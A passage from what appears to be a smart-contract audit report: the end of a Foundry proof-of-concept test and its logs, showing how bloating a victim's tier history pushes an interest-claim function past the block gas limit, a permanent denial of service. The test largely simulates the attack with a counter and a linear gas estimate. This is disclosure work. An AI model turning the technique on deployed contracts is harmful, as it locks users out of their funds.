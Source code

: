 ```solidity
                // Each boundary toggle adds entries to the victim's tier history
                tierHistoryEntries[victim] += 2;

                // Move to next block
                vm.roll(block.number + 1);
                vm.warp(block.timestamp + 12); // 12 seconds per block
            }
        }

        // 4. Show the tier history growth
        console2.log("Victim's tier history entries:", tierHistoryEntries[victim]);
        console2.log("Normal user's tier history entries:", tierHistoryEntries[normalUser]);

        // 5. Demonstrate gas usage for a small number of entries
        uint256 smallHistoryGas = calculateGasForEntries(tierHistoryEntries[normalUser]);
        console2.log("\n--- Gas Usage for Small History ---");
        console2.log("Gas for", tierHistoryEntries[normalUser], "entries:", smallHistoryGas);

        // 6. Demonstrate gas usage for a large number of entries (DOS scenario)
        uint256 largeEntryCount = 6000; // Number that would cause DOS
        uint256 largeHistoryGas = calculateGasForEntries(largeEntryCount);
        console2.log("\n--- Gas Usage for Large History (DOS Scenario) ---");
        console2.log("Gas for", largeEntryCount, "entries:", largeHistoryGas);

        // 7. Show that gas would exceed block limit
        if (largeHistoryGas > BLOCK_GAS_LIMIT) {
            console2.log("CRITICAL: Gas exceeds block limit of", BLOCK_GAS_LIMIT);
            console2.log("Result: Permanent DOS - victim cannot claim interest");
        }

    }

    /**
     * @notice Helper function to calculate gas usage based on tier history entries
     * This uses a linear model to estimate gas usage
     */
    function calculateGasForEntries(uint256 entries) internal pure returns (uint256) {
        // Base gas cost for the claim function
        uint256 baseGas = 50000;

        // Each tier history entry adds ~5000 gas to the claim function
        // This is based on the O(n) loop in calculateUnclaimedInterest()
        return baseGas + (entries * 5000);
    }
}
```

**Logs**
```bash
Ran 1 test for test/stake/TierHistoryBloatBugPOC.t.sol:TierHistoryBloatBugPOC
[PASS] test_TierHistory_Bloat_Bug() (gas: 1913587)
Logs:
  --- Initial Setup ---

--- Attacker Toggles Tier Boundary ---
  Victim's tier history entries: 21
  Normal user's tier history entries: 1

--- Gas Usage for Small History ---
  Gas for 1 entries: 55000

--- Gas Usage for Large History (DOS Scenario) ---
  Gas for 6000 entries: 30050000
  CRITICAL: Gas exceeds block limit of 30000000
```
